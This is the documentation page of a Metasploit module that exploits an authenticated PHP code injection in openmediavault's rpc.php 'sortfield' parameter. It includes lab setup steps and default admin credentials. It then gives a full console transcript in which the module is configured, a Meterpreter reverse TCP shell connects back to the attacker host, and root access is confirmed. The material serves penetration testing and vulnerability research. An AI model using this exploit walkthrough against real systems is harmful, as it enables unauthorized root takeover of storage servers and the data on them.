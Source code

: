 ## Vulnerable Application

### Description

  This module exploits an authenticated PHP code injection
  vulnerability found in openmediavault before 4.1.36 and 5.x before 5.5.12 
  inclusive in the "sortfield" POST parameter of "rpc.php" page, 
  because json_encode_safe is not used in config/databasebackend.inc. 
  Successful exploitation allows arbitrary command execution 
  on the underlying operating system as root.


### Installation And Setup

  1. Download the version 5.5.11 of OpenMediaVault (i.e. [openmediavault_5.5.11-amd64.iso ISO](https://deac-ams.dl.sourceforge.net/project/openmediavault/5.5.11/openmediavault_5.5.11-amd64.iso)).
  2. Set up a new Debian machine in VirtualBox or VMWare and load the ISO. 
  Follow the install prompts and note the `root` password you choose to use. 
  Once the installation is finished, press `<Enter>` to reboot the server.
  3. Log into via the terminal using the username `root` and the password 
  you set for the `root` user during installation.
  4. On the shell and run the command `ip a` to get the current IP address.
  5. Take the IP address and browse to the URL http://*IP ADDRESS*/, then log in
  with the default administrative credentials (`admin`:`openmediavault`).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### OpenMediaVault 5.5.11
```
msf6 > use exploit/unix/webapp/openmediavault_rpc_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > show options

Module options (exploit/unix/webapp/openmediavault_rpc_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  openmediavault   yes       Password to login with
   HttpUsername  admin            yes       User to login with
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80               yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Linux Dropper)


msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set rhosts 192.168.56.108
rhosts => 192.168.56.108
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set lhost 192.168.56.105
lhost => 192.168.56.105
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > exploit

[*] Started reverse TCP handler on 192.168.56.105:4444
[*] 192.168.56.108:80 - Authenticating with OpenMediaVault using "admin:openmediavault"...
[+] 192.168.56.108:80 - Successfully authenticated with OpenMediaVault.
[*] 192.168.56.108:80 - Trying to detect if target is running a supported version of OpenMediaVault.
[+] 192.168.56.108:80 - Identified OpenMediaVault version 5.5.11.
[*] 192.168.56.108:80 - Sending payload (150 bytes)...
[*] Sending stage (976712 bytes) to 192.168.56.108
[*] Meterpreter session 1 opened (192.168.56.105:4444 -> 192.168.56.108:38508) at 2020-10-07 01:16:01 -0400
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : 192.168.56.108
OS           : Debian 10.5 (Linux 5.7.0-0.bpo.2-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 1499 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
```
